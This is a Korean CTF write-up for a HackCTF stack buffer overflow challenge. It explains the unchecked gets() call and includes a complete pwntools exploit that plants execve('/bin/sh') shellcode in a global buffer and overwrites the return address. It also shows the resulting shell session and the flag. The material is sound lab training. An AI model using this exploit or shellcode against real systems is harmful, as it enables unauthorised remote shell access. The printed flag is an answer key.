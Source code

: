 ```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+0h] [ebp-14h]

  setvbuf(stdout, 0, 2, 0);
  printf("Name : ");
  read(0, &name, 0x32u);
  printf("input : ");
  gets(&s);
  return 0;
}
```
<strong>코드를 보면 s 변수를 14h 만큼 생성해주고, read 함수를 이용해서 name을 입력 받고, printf 함수로 출력하고, 또 gets 함수를 이용해서 s를 입력 받는 것을 볼 수 있습니다. 여기서 gets 함수로 입력값을 받고, 입력값의 대한 검증이 없기 때문에 BOF 취약점이 발생합니다. 그래서 그냥 name 변수에 쉘코드를 넣어주고, RET 값으로 name의 주소를 주면 된다.</strong><br>

```
   0x080484f4 <+41>:	push   0x804a060
   0x080484f9 <+46>:	push   0x0
   0x080484fb <+48>:	call   0x8048370 <read@plt>
```
<strong>gdb를 이용해서 name의 주소가 0x804a060라는 것을 알 수 있습니다..</strong><br>

- 시나리오

1. name 변수에 쉘 코드를 입력해준다. 쉘 코드는 그냥 검색해서 구했다.
2. BOF 취약점을 이용해서 RET를 name의 주수로 덮어준다.

```python
from pwn import * 
p = remote("ctf.j0n9hyun.xyz", 3003)

shellcode = "\x31\xC9\x8D\x41\x0B\x99\x68\x2F\x73\x68\x00\x68\x2F\x62\x69\x6E\x89\xE3\xCD\x80"
p.sendafter("Name : ", shellcode)

payload = "A" * 24
payload += p32(0x804a060)
p.sendafter("input : ",payload)
p.interactive()
```

```
pocas@pocas-VirtualBox:~/pwn/HackCTF$ python prob.py 
[+] Opening connection to ctf.j0n9hyun.xyz on port 3003: Done
[*] Switching to interactive mode
$ cat flag
$ cat flag
HackCTF{1_l0v3_70p_pwn3r_m4lhyuk}
$  
```

> FLAG : HackCTF{1_l0v3_70p_pwn3r_m4lhyuk}

---
HackCTF Challenge : x64 Buffer Overflow
